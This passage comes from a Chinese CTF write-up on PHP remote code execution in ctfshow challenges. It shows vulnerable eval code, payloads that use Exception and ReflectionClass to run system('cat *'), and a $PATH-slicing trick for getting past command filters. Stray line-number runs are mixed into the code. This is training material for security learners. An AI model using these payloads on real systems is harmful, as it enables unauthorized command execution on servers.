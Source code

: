 ```php
12345678910111213141516
```

payload：

```php
?v1=FilesystemIterator&v2=getcwd
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201108152244796.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
二，使用PHP的反射类ReflectionClass、ReflectionMethod和PHP异常处理 Exception来rce

例题：ctfshow-web109

```php
<?php
highlight_file(__FILE__);
error_reorting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}
?> 
12345678910111213
```

payload：

```php
?v1=Exception&v2=system('cat *') 
?v1=Reflectionclass&v2=system('cat *')
12
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020110815501055.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)

##### 0x20 $PATH环境变量绕过

第一种，可以使用大写字母数字和{}

可以使用环境变量来绕过，`$PATH`环境变量截取字母

![img](https://img-blog.csdnimg.cn/20210523104428889.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210523104442182.png)

第二种，可以使用大写字母和{}

我们先来看看ls怎么构造，在上一个方法中，ls为`${PATH:5:1}${PATH:11:1}`，但是数字被过滤了，我们可以用环境变量的长度来代替数字，例如我们最熟悉的$PATH的长度为88
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210523142705276.png)
